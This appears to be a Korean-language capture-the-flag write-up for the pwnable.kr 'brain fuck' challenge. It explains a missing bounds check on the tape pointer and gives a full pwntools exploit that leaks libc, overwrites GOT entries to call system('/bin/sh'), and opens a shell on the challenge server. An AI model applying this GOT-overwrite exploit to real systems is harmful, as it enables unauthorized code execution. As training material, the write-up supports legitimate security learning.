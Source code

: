 # [pwnable.kr] brain fuck

> I made a simple brain-fuck language emulation program written in C. 
> The [ ] commands are not implemented yet. However the rest functionality seems working fine. 
> Find a bug and exploit it to get a shell. 
>
> Download : http://pwnable.kr/bin/bf
> Download : http://pwnable.kr/bin/bf_libc.so
>
> Running at : nc pwnable.kr 9001

## Bug

![image](https://github.com/user-attachments/assets/7ea8e1d0-5f1b-4f69-81cf-84cb700e64b2)

`<`와 `>` 연산을 처리할 때 `p`가 `tape`의 범위를 벗어나지 않는지 검사하는 과정이 없어서 OOB가 발생할 수 있다.

![image](https://github.com/user-attachments/assets/9ab8fedf-1d72-4da9-8149-d342cb270f03)

`tape`의 앞쪽에 있는 `p` 포인터를 임의의 주소로 덮으면 그 주소에 접근해서 값을 읽거나 쓸 수 있다.

## Exploit

GOT를 oneshot gadget으로 덮는 게 가장 간단한 방법이지만, 조건이 맞는 oneshot gadget이 없다.

![image](https://github.com/user-attachments/assets/8d0fb008-3d2c-4802-9da7-97b57c7e868f)

`main()`에서 `setvbuf(stdout, 0, 2, 0)`을 호출할 때, `0x804a060`(`stdout`의 GOT)에 저장된 값을 가져와서 `setvbuf()`의 첫 번째 인자로 전달한다. `stdout`의 GOT를 `"/bin/sh"`의 주소로 덮고 `setvbuf()`의 GOT를 `system()`의 주소로 덮으면, 이 코드는 `system("/bin/sh")`을 호출하는 코드가 된다.

![image](https://github.com/user-attachments/assets/22150f89-c7b6-48c3-9d5b-7a59388060a5)

그리고 나서 `puts()`의 GOT를 `main+35`로 덮어서 돌아가면 shell을 획득할 수 있다.

```python
# ex.py

from pwn import *

r = remote("pwnable.kr", 9001)

tape = 0x804A0A0  # tape
main = 0x8048671  # main()
puts_got = 0x804A018  # GOT of puts()
stdout_got = 0x804A060  # GOT of stdout
setvbuf_got = 0x804A028  # GOT of setvbuf()

puts_offset = 0x5FCB0  # offset of puts() from libc base
system_offset = 0x3ADB0  # offset of system() from libc base
binsh_offset = 0x15BB2B  # offset of "/bin/sh" from libc base

# leak libc
payload = b"<" * (tape - puts_got)
payload += b".>.>.>."

# overwrite GOT of puts() with main+35
payload += b"<<<"
payload += b",>,>,>,"

# overwrite GOT of stdout with "/bin/sh"
payload += b"<<<"
payload += b">" * (stdout_got - puts_got)
payload += b",>,>,>,"

# overwrite GOT of setvbuf() with system()
payload += b"<<<"
payload += b"<" * (stdout_got - setvbuf_got)
payload += b",>,>,>,"

# call puts() => main+35
payload += b"["

r.sendlineafter(b"type some brainfuck instructions except [ ]\n", payload)

# leak libc
puts = u32(r.recvn(4))  # puts()
libc = puts - puts_offset  # libc base
log.info("libc base: " + hex(libc))
system = libc + system_offset  # system()
binsh = libc + binsh_offset  # "/bin/sh"

# overwrite GOT of puts() with main+35
r.send(p32(main + 35))

# overwrite GOT of stdout with "/bin/sh"
r.send(p32(binsh))

# overwrite GOT of setvbuf() with system()
r.send(p32(system))

r.interactive()
```

![image](https://github.com/user-attachments/assets/04f883a3-b947-4462-8264-5936ce8b922c)
